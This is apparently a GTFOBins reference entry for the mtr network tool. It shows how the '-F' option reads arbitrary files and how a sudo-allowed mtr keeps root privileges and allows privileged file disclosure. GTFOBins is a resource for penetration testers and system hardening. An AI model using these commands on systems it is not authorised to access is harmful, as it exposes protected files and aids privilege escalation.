 # GTFOBin: mtr

The read file content is corrupted by error prints.

## File read

It reads data from files, it may be used to do privileged reads or disclose files outside a restricted file system.

```
LFILE=file_to_read
mtr --raw -F "$LFILE"
```

## Sudo

If the binary is allowed to run as superuser by `sudo`, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

```
LFILE=file_to_read
sudo mtr --raw -F "$LFILE"
```